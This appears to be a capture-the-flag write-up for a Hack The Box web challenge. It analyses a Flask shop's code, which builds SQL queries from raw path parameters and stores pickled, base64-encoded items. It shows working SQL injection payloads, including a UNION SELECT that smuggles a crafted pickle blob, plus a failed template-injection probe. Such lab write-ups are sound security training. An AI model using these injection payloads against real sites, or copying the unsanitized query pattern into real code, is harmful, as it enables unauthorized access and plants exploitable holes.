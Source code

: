 # HTB-Challenges-Web-COP

## Challenge Description
The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

![localhost_1337_(Nest Hub Max)](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/999d7d68-5db6-4b8f-b08c-5e9a6186d433)

## Reconnaissance
While scanning the code, two files stood out: **application/models.py** and **application/blueprints/routes.py**. Analyzing the code within these files reveals a concerning vulnerability. The application appears to be using path parameters directly within its SQL queries, without proper validation or sanitization. This practice makes the application highly susceptible to SQL injection attacks (SQLi).
```py
class shop(object):

    @staticmethod
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)

    @staticmethod
    def all_products():
        return query_db('SELECT * FROM products')    
```

The application uses the Jinja2 template engine, which is known to be vulnerable to SSTI attacks if not configured correctly. Additionally, before displaying, the data also undergoes processing using Jinja Filters, as indicated by the syntax `{% set item = product | pickle %}`

```jinja
<div class="row gx-4 gx-lg-5 align-items-center">
    {% set item = product | pickle %}
    <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
    <div class="col-md-6">
        <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
        <div class="fs-5 mb-5">
            <span>£{{ item.price }}</span>
        </div>
        <p class="lead">{{ item.description }}</p>
    </div>
</div>
```

The method of storing data in the database is intriguing. Each row consolidates information into a single field, employing an encoding technique that uses `pickle` and `base64`. This leads to the use of Jinja Filters for decoding the data.

```py
with open('schema.sql', mode='r') as f:
    shop = map(lambda x: base64.b64encode(pickle.dumps(x)).decode(), items)
    get_db().cursor().executescript(f.read().format(*list(shop)))
```

## Scanning
Initially, I conducted a test for SQL injection. It's worth noting that the application employs SQLite, limiting the potential for Remote Code Execution (RCE) in this context.

![localhost_1337_view_%27%20OR%20%271%27%3D%271](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/7f5c3012-f028-4bb7-a379-6e5df22d1c4b)

We successfully injected the payload `' OR '1'='1` or `%27%20OR%20%271%27%3D%271` into the product ID via URL path parameters, allowing us to retrieve the first item. Now, our goal is to display an item that we can control, facilitating testing for Server-Side Template Injection (SSTI) or template injection.

To achieve this, I plan to create a Python script that generates a dictionary with fields similar to those the application uses. Since Jinja accesses both objects and dictionaries using dot notation, a dictionary will suffice. Additionally, I'll encode it in a way that the application can decode and display as intended.

```py
evil_item = {
    "name": "Some name",
    "description": "Some description",
    "price": "100",
    "image": "/static/images/not_found.jpg",
}

print(base64.b64encode(pickle.dumps(evil_item)).decode())
# gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```

With the encoded item in hand, my next step is to showcase it in the application. I'll employ the `UNION` technique. Initially, I'll deliberately attempt to fetch non-existent data from the database and then append my encoded object to the result. This ensures that my encoded object becomes the sole data returned by the query.

```sql
' UNION SELECT 'gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg==
```
```
%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D
```

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVbgAAAAAAAAB9lCiMBG5hbWWUjAlTb21lIG5hbWWUjAtkZXNjcmlwdGlvbpSMEFNvbWUgZGVzY3JpcHRpb26UjAVwcmljZZSMAzEwMJSMBWltYWdllIwcL3N0YXRpYy9pbWFnZXMvbm90X2ZvdW5kLmpwZ5R1Lg%3D%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/25844325-c408-4ac3-b16f-4ab560be673f)

## Exploitation 1 - SSTI *(Failed)*
Now that I have a way to inject a payload that controls the application's dynamic aspects, I can attempt various vulnerabilities to read the flag. The first vulnerability to test is SSTI, so I will create a payload to confirm if the application is susceptible to it.

```py
evil_item = {
    "name": "{{ 7*7 }}",
    "description": "{{ 7*7 }}",
    "price": "{{ 7*7 }}",
    "image": "{{ 7*7 }}",
}
```

Unfortunately for me, it's not.

![localhost_1337_view_%27%20UNION%20SELECT%20%27gASVPAAAAAAAAAB9lCiMBG5hbWWUjAl7eyA3KjcgfX2UjAtkZXNjcmlwdGlvbpRoAowFcHJpY2WUaAKMBWltYWdllGgCdS4%3D](https://github.com/patzj/HTB-Challenges-Web-COP/assets/10325457/592b423b-3ffb-4527-bb7b-61531f661947)
